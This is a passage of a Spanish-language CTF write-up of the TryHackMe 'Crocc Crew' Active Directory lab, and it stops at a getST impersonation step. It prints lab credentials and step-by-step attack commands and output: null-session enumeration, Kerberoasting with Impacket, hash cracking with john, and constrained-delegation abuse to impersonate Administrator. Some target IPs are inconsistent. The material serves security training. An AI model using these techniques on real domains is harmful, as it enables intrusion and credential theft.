







La máquina Crocc Crew de TryHackMe es un laboratorio estilo CTF inspirado en entornos corporativos reales, diseñado para simular una infraestructura de Active Directory comprometida. El reto está basado en una organización ficticia llamada Cooctus Corp, donde deberás comprometer múltiples servicios y escalar privilegios hasta obtener el control total del dominio.
Este desafío está clasificado como de dificultad alta a insana y está enfocado en tres fases principales:
El laboratorio está especialmente orientado a pentesters y profesionales de ciberseguridad que quieran reforzar sus habilidades ofensivas en redes Windows corporativas. Requiere conocimientos sólidos de protocolos como LDAP, SMB, RPC y Kerberos, así como manejo fluido de herramientas como Impacket, BloodHound, CrackMapExec y Evil-WinRM.
#nmap -sC -sV -T5 --open -vv -A 10.10.137.157
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-01 10:29 AST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:29
Completed NSE at 10:29, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:29
Completed NSE at 10:29, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:29
Completed NSE at 10:29, 0.00s elapsed
Initiating Ping Scan at 10:29
Scanning 10.10.137.157 [4 ports]
Completed Ping Scan at 10:29, 0.44s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:29
Completed Parallel DNS resolution of 1 host. at 10:29, 0.03s elapsed
Initiating SYN Stealth Scan at 10:29
Scanning 10.10.137.157 [1000 ports]
Discovered open port 139/tcp on 10.10.137.157
Discovered open port 53/tcp on 10.10.137.157
Discovered open port 3389/tcp on 10.10.137.157
Discovered open port 80/tcp on 10.10.137.157
Discovered open port 135/tcp on 10.10.137.157
Discovered open port 445/tcp on 10.10.137.157
Discovered open port 593/tcp on 10.10.137.157
Discovered open port 636/tcp on 10.10.137.157
Discovered open port 3269/tcp on 10.10.137.157
Discovered open port 464/tcp on 10.10.137.157
Discovered open port 389/tcp on 10.10.137.157
Discovered open port 3268/tcp on 10.10.137.157
Discovered open port 88/tcp on 10.10.137.157
Completed SYN Stealth Scan at 10:30, 16.08s elapsed (1000 total ports)
Initiating Service scan at 10:30
Scanning 13 services on 10.10.137.157
Completed Service scan at 10:30, 21.12s elapsed (13 services on 1 host)
Initiating OS detection (try #1) against 10.10.137.157
Retrying OS detection (try #2) against 10.10.137.157
Initiating Traceroute at 10:30
Completed Traceroute at 10:30, 3.03s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 10:30
Completed Parallel DNS resolution of 2 hosts. at 10:30, 0.04s elapsed
NSE: Script scanning 10.10.137.157.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:30
NSE Timing: About 99.61% done; ETC: 10:31 (0:00:00 remaining)
NSE Timing: About 99.67% done; ETC: 10:31 (0:00:00 remaining)
NSE Timing: About 99.72% done; ETC: 10:32 (0:00:00 remaining)
NSE Timing: About 99.78% done; ETC: 10:32 (0:00:00 remaining)
NSE Timing: About 99.83% done; ETC: 10:33 (0:00:00 remaining)
NSE Timing: About 99.83% done; ETC: 10:33 (0:00:00 remaining)
NSE Timing: About 99.89% done; ETC: 10:34 (0:00:00 remaining)
NSE Timing: About 99.94% done; ETC: 10:34 (0:00:00 remaining)
Completed NSE at 10:35, 258.54s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:35
Completed NSE at 10:35, 8.02s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:35
Completed NSE at 10:35, 0.00s elapsed
Nmap scan report for 10.10.137.157
Host is up, received echo-reply ttl 125 (0.25s latency).
Scanned at 2025-05-01 10:29:58 AST for 313s
Not shown: 987 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack ttl 125 Simple DNS Plus
80/tcp open http syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp open kerberos-sec syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2025-05-01 14:29:46Z)
135/tcp open msrpc syn-ack ttl 125 Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack ttl 125
464/tcp open kpasswd5? syn-ack ttl 125
593/tcp open ncacn_http syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped syn-ack ttl 125
3268/tcp open ldap syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped syn-ack ttl 125
3389/tcp open ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: COOCTUS
| NetBIOS_Domain_Name: COOCTUS
| NetBIOS_Computer_Name: DC
| DNS_Domain_Name: COOCTUS.CORP
| DNS_Computer_Name: DC.COOCTUS.CORP
| Product_Version: 10.0.17763
|_ System_Time: 2025-05-01T14:30:13+00:00
|_ssl-date: 2025-05-01T14:34:29+00:00; -35s from scanner time.
| ssl-cert: Subject: commonName=DC.COOCTUS.CORP
| Issuer: commonName=DC.COOCTUS.CORP
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-30T14:28:41
| Not valid after: 2025-10-30T14:28:41
| MD5: 5cbd:36aa:c326:5a1d:2e13:1bbc:5c0c:2cb5
| SHA-1: ee09:1457:8830:2e79:3bcf:c43a:f99a:c292:d73c:cc85
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQTf83fJxnPa5COChvjeB2ozANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9EQy5DT09DVFVTLkNPUlAwHhcNMjUwNDMwMTQyODQxWhcNMjUx
| MDMwMTQyODQxWjAaMRgwFgYDVQQDEw9EQy5DT09DVFVTLkNPUlAwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDNyZC15khCAm6CFQUkOt5D8TwMq1d5GTy6
| Z/OkJkJ9V2SaukDC1S7RkepaWyRG3Y+XtOBuVOFI0BnMxmtNmpbuqpd9G4Hsxjdw
| bfTrEuKoUQJHfz6jDa6y/+tpzC+Kr13LzIoTmTAiEg64Nj3i5c19b6j8rM4u04uz
| 4hynSHLaizysJ2umyUgeWWaAoZBcrQ088VwMDLDh+fExBCpmWcoVvEUscswXMLGM
| KwJzTtD81ESiREmcP/EQ+NsM35XFSw1xLEEg+aPGnU3s1/xltSAw5BOpJZkcB0hE
| ofauOYryB722/DFEXF/LR/YaMCUnAnNro2zX78EVVCfCQbBMM1rxAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAarFJB2xm9llLn1CX+KGrMpjzsw6LPBug5DzCSauFApviLAXwY+eQLYrS
| iIgoOd0ko0y1v/ELMDQbOlURmarTANJ8GDkegmc1ZGNssjQxsWZTpDVFRNFhNZ3P
| N1/YsvU3ESuiwYpdq8PUJ1kC+PTLRivPsusRU1eBNP1uUQxa/w8AA04oHDPoamUy
| IJAOFj6oXMaWJhVTBqK5QCgYgym2FwPwJEZ68NrcI+1NiEU2O1QnSkwAHKR5l6ez
| OWUXZqiKWO+MV8qUnXbEJ4R6vwaKrzb18f5FHK8kJTfJ8+XqU2uGC8I8nv8hVjUW
| 4bA2PsMycHuG7B4p3SXEhVgUdZC0EQ==
|_-----END CERTIFICATE-----
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
OS fingerprint not ideal because: Timing level 5 (Insane) used
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=5/1%OT=53%CT=%CU=%PV=Y%DS=4%DC=T%G=N%TM=6813869F%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10D%TI=I%TS=U)
SEQ(SP=104%GCD=1%ISR=10D%TI=I%II=I%SS=S%TS=U)
OPS(O1=M508NW8NNS%O2=M508NW8NNS%O3=M508NW8%O4=M508NW8NNS%O5=M508NW8NNS%O6=M508NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M508NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: -35s, deviation: 0s, median: -35s
| p2p-conficker:
| Checking for Conficker.C or higher...
| Check 1 (port 19427/tcp): CLEAN (Timeout)
| Check 2 (port 61811/tcp): CLEAN (Timeout)
| Check 3 (port 40248/udp): CLEAN (Timeout)
| Check 4 (port 46740/udp): CLEAN (Timeout)
|_ 0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
| date: 2025-05-01T14:30:15
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
TRACEROUTE (using port 139/tcp)
HOP RTT ADDRESS
1 167.92 ms 10.2.0.1
2 ... 3
4 299.77 ms 10.10.137.157
Durante la fase inicial de reconocimiento, se realizó un escaneo de servicios al host objetivo, revelando un entorno que simula una infraestructura corporativa basada en Windows Server, concretamente un controlador de dominio. Se identificaron varios servicios clave expuestos que confirman esta hipótesis.
Entre los puertos abiertos se encontraron servicios típicos de Active Directory, como DNS, Kerberos, LDAP y SMB. El servidor web utiliza Microsoft IIS 10.0 y el servicio de escritorio remoto también se encuentra activo, lo que indica la presencia de múltiples vectores potenciales para el acceso inicial o la enumeración interna.
Además, el escaneo permitió obtener detalles importantes del sistema, como el nombre del host, el dominio interno y la versión del sistema operativo, que corresponde a Windows Server 2019. Esta información es crucial para orientar la estrategia de ataque, ya que apunta a la posibilidad de realizar técnicas como la enumeración de usuarios vía LDAP, ataques de Kerberos (como AS-REP Roasting o Kerberoasting), y abuso de comparticiones SMB/RPC.
Un punto relevante descubierto durante el escaneo es el nombre de dominio interno del entorno: COOCTUS.CORP Esta información, obtenida a través del servicio RDP y LDAP, es fundamental ya que permite identificar que el sistema es parte de un dominio corporativo Active Directory. Con este nombre de dominio, es posible afinar la enumeración orientada a usuarios, grupos, políticas de seguridad y, en general, estructuras internas del Directorio Activo.


Una vez identificado el nombre de dominio interno COOCTUS.CORP, lo añadimos manualmente al archivo /etc/hosts apuntando a la IP de la máquina objetivo. Esto nos permitió resolver correctamente los nombres de dominio locales en el navegador. Al acceder desde el navegador a http://cooctus.corp, obtuvimos respuesta del servidor web, confirmando que el nombre de dominio es funcional y utilizado activamente en el entorno.
Este paso es esencial en entornos basados en Active Directory, ya que muchos servicios web internos están configurados para responder únicamente a peticiones con nombres de dominio válidos. Además, puede revelar portales de autenticación o paneles administrativos accesibles solo mediante dominios internos.

Al explorar el archivo robots.txt en el servidor web, encontramos tres rutas listadas como restringidas para los bots de indexación.
Este tipo de hallazgos puede revelar archivos sensibles o rutas ocultas que los administradores intentaron ocultar de forma superficial. La inclusión de un archivo de respaldo como db-config.bak y un posible acceso malicioso como backdoor.php es una señal clara de mala higiene de seguridad. Estas rutas pueden contener configuraciones con credenciales, vulnerabilidades intencionadas o puertas traseras dejadas para el reto.
#curl http://cooctus.corp/db-config.bak
>?php
$servername = "db.cooctus.corp";
$username = "C00ctusAdm1n";
$password = "B4dt0th3b0n3";
// Create connection $conn = new mysqli($servername, $username, $password);
// Check connection if ($conn->connect_error) {
die ("Connection Failed: " .$conn->connect_error);
}
echo "Connected Successfully";
?>
Al acceder al archivo /db-config.bak, obtuvimos un archivo de respaldo en PHP que contiene información sensible de configuración de base de datos. En su interior se revelan credenciales duras (hardcoded) utilizadas para establecer la conexión con un servidor MySQL:
Este tipo de exposición es un fallo crítico de seguridad, ya que permite a un atacante autenticarse directamente contra el servicio de base de datos o intentar usar estas credenciales en otros vectores del entorno, como servicios web, RDP o SMB. La revelación de contraseñas en archivos de respaldo es una práctica muy riesgosa y en entornos reales puede ser devastadora si no se aplican controles de acceso o políticas de segregación adecuadas.
#rpcclient -U% 10.10.137.157
rpcclient $> enumprivs
found 35 privileges
SeCreateTokenPrivilege 0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege 0:3 (0x0:0x3)
SeLockMemoryPrivilege 0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege 0:5 (0x0:0x5)
SeMachineAccountPrivilege 0:6 (0x0:0x6)
SeTcbPrivilege 0:7 (0x0:0x7)
SeSecurityPrivilege 0:8 (0x0:0x8)
SeTakeOwnershipPrivilege 0:9 (0x0:0x9)
SeLoadDriverPrivilege 0:10 (0x0:0xa)
SeSystemProfilePrivilege 0:11 (0x0:0xb)
SeSystemtimePrivilege 0:12 (0x0:0xc)
SeProfileSingleProcessPrivilege 0:13 (0x0:0xd)
SeIncreaseBasePriorityPrivilege 0:14 (0x0:0xe)
SeCreatePagefilePrivilege 0:15 (0x0:0xf)
SeCreatePermanentPrivilege 0:16 (0x0:0x10)
SeBackupPrivilege 0:17 (0x0:0x11)
SeRestorePrivilege 0:18 (0x0:0x12)
SeShutdownPrivilege 0:19 (0x0:0x13)
SeDebugPrivilege 0:20 (0x0:0x14)
SeAuditPrivilege 0:21 (0x0:0x15)
SeSystemEnvironmentPrivilege 0:22 (0x0:0x16)
SeChangeNotifyPrivilege 0:23 (0x0:0x17)
SeRemoteShutdownPrivilege 0:24 (0x0:0x18)
SeUndockPrivilege 0:25 (0x0:0x19)
SeSyncAgentPrivilege 0:26 (0x0:0x1a)
SeEnableDelegationPrivilege 0:27 (0x0:0x1b)
SeManageVolumePrivilege 0:28 (0x0:0x1c)
SeImpersonatePrivilege 0:29 (0x0:0x1d)
SeCreateGlobalPrivilege 0:30 (0x0:0x1e)
SeTrustedCredManAccessPrivilege 0:31 (0x0:0x1f)
SeRelabelPrivilege 0:32 (0x0:0x20)
SeIncreaseWorkingSetPrivilege 0:33 (0x0:0x21)
SeTimeZonePrivilege 0:34 (0x0:0x22)
SeCreateSymbolicLinkPrivilege 0:35 (0x0:0x23)
SeDelegateSessionUserImpersonatePrivilege 0:36 (0x0:0x24)
rpcclient $>
Durante la enumeración de servicios SMB utilizando rpcclient con conexión nula (-U%), logramos autenticarnos contra la IP de la máquina:
rpcclient -U% 10.10.137.157
Dentro de la sesión, ejecutamos el comando enumprivs, el cual reveló una lista extensa de privilegios asignados al contexto del sistema. Algunos de los privilegios más destacados fueron:
#rdesktop -f -u "" 10.10.137.157

Durante la fase de enumeración de servicios, detectamos el puerto RDP abierto en el host. Intentamos conectarnos mediante rdesktop sin credenciales.
La conexión se estableció correctamente y nos mostró la pantalla de bloqueo del sistema. En ella se visualizaba una nota, como si fuera un recordatorio pegado en el escritorio, con las siguientes credenciales:
Sin embargo, al intentar iniciar sesión con esas credenciales, el acceso fue denegado. Esto podría indicar que las credenciales están desactualizadas, el usuario está deshabilitado, o que solo están allí como un señuelo para distraer al atacante.
#smbclient -L 10.10.137.157 -U 'Visitor'
Password for [WORKGROUP\Visitor]:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
Home Disk
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.137.157 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
Realizamos una enumeración de los recursos compartidos en la máquina objetivo utilizando el usuario Visitor.
Al intentar obtener información sobre el grupo de trabajo, el cliente SMB falló con un error indicando que no se pudo obtener el nombre del recurso del grupo de trabajo, lo que sugiere que hubo un problema con la compatibilidad de versiones de SMB. A pesar de esto, la enumeración de los recursos compartidos fue exitosa y el recurso Home es de particular interés para futuras fases de acceso.
#smbmap -H 10.10.137.157 -u "Visitor" -p "GuestLogin!" -r Home
[+] IP: 10.10.214.152:445 Name: COOCTUS.CORP
Disk Permissions Comment
---- ----------- -------
Home READ ONLY
.\Home\*
dr--r--r-- 0 Tue Jun 8 15:42:53 2021 .
dr--r--r-- 0 Tue Jun 8 15:42:53 2021 ..
fr--r--r-- 17 Tue Jun 8 15:41:45 2021 user.txt
┌─[root@parrot]─[/home/agente0]
└──╼ #smbmap -H 10.10.137.157 -u "Visitor" -p "GuestLogin!" -r Home --download Home/user.txt
[+] Starting download: Home\user.txt (17 bytes)
[+] File output to: /home/agente0/10.10.137.157-Home_user.txt
Realizamos una enumeración más detallada del recurso compartido Home utilizando smbmap con el usuario Visitor y la contraseña GuestLogin!. Durante este proceso, se confirmaron los siguientes detalles:
Posteriormente, se procedió a descargar el archivo user.txt desde el recurso compartido, lo cual fue exitoso y asi obtener la 1ra bandera del reto.
#netexec smb 10.10.137.157 -u 'Visitor' -p 'GuestLogin!'
SMB 10.10.137.157 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB 10.10.137.157 445 DC [+] COOCTUS.CORP\Visitor:GuestLogin!
Utilizando la herramienta netexec, se comprobó la validez de las credenciales Visitor : GuestLogin! contra el servidor SMB. La autenticación fue exitosa en la máquina DC (con IP 10.10.105.231), que corre Windows 10 / Server 2019 Build 17763 x64 y pertenece al dominio COOCTUS.CORP.
Este resultado confirma que las credenciales descubiertas son válidas para autenticarse contra el servicio SMB del controlador de dominio, lo cual representa un punto clave en el acceso inicial dentro del entorno de red del objetivo.
#ldapdomaindump 10.10.137.157 -u 'COOCTUS.CORP\Visitor' -p 'GuestLogin!'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
Tras autenticarse correctamente con las credenciales COOCTUS.CORP\Visitor : GuestLogin!, se utilizó la herramienta ldapdomaindump para extraer información del controlador de dominio en la IP 10.10.105.231. La conexión y el bind al servicio LDAP fueron exitosos, permitiendo obtener un volcado completo del dominio COOCTUS.CORP.
Este volcado contiene información crítica sobre usuarios, grupos, equipos, políticas y configuraciones del entorno de Active Directory, lo que facilita significativamente la fase de reconocimiento interno para posteriores movimientos laterales o escaladas de privilegios.


Dentro de los resultados generados por ldapdomaindump, se accedió al archivo domain_users.html, el cual contenía una lista detallada de los usuarios del dominio COOCTUS.CORP, junto con información relevante como:
te archivo reveló usuarios de alto valor como Administrator, Howard, Steve, Spooks, Jeff, y Mark, todos con membresía en grupos privilegiados. También se identificó la cuenta Visitor, asociada al alias Cooctus Guest, que ya se había utilizado con éxito en autenticaciones anteriores
#python3 GetUserSPNs.py 'COOCTUS.CORP/Visitor:GuestLogin!' -dc-ip 10.10.137.157 -request -outputfile TGS.txt
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
-------------------- -------------- -------- -------------------------- -------------------------- -----------
HTTP/dc.cooctus.corp password-reset 2021-06-08 18:00:39.356663 2021-06-08 17:46:23.369540 constrained
[-] CCache file is not found. Skipping...
Utilizando Impacket-GetUserSPNs, se identificó un Service Principal Name expuesto perteneciente al usuario password-reset, lo cual indica que esta cuenta tiene asociado un servicio Kerberoastable:
La flag de delegación restringida y el hecho de que el usuario tenga un SPN lo hace un candidato ideal para ataques de Kerberoasting. Además, el ticket TGS fue guardado en el archivo TGS.txt.
#john --wordlist=/usr/share/wordlists/rockyou.txt TGS.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
resetpassword (?)
1g 0:00:00:02 DONE (2025-05-01 17:53) 0.3610g/s 85210p/s 85210c/s 85210C/s riley143..q7w8e9
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
Se logró crackear el hash TGS del usuario password-reset con john usando el diccionario rockyou.txt:
Esto indica que el servicio asociado al SPN HTTP/dc.cooctus.corp puede ser accedido usando estas credenciales.
#python3 findDelegation.py -debug COOCTUS.CORP/password-reset:resetpassword -dc-ip 10.10.137.157
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
[+] Impacket Library Installation Path: /usr/local/lib/python3.11/dist-packages/impacket-0.13.0.dev0+20250422.104055.27bebb13-py3.11.egg/impacket
[+] Connecting to 10.10.137.157, port 389, SSL False, signing True
[+] Total of records returned 4
AccountName AccountType DelegationType DelegationRightsTo SPN Exists
-------------- ----------- ---------------------------------- ----------------------------------- ----------
password-reset Person Constrained w/ Protocol Transition oakley/DC.COOCTUS.CORP/COOCTUS.CORP No
password-reset Person Constrained w/ Protocol Transition oakley/DC.COOCTUS.CORP No
password-reset Person Constrained w/ Protocol Transition oakley/DC No
password-reset Person Constrained w/ Protocol Transition oakley/DC.COOCTUS.CORP/COOCTUS No
password-reset Person Constrained w/ Protocol Transition oakley/DC/COOCTUS No
Al ejecutar findDelegation.py con las credenciales crackeadas (password-reset:resetpassword), se detectó que el usuario password-reset está configurado con Delegación Restringida con Transición de Protocolo hacia el equipo oakley:
Servicios Delegados:
Esto significa que password-reset puede suplantar identidades (impersonate) frente a esos servicios en oakley, sin necesidad de obtener un TGT del usuario suplantado (gracias al protocolo S4U2Self + S4U2Proxy).
#python3 getST.py -spn oakley/DC.COOCTUS.CORP -impersonate Administrator "COOCTUS.CORP/password-reset:resetpassword" -dc-ip 10.10.137.157
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping...
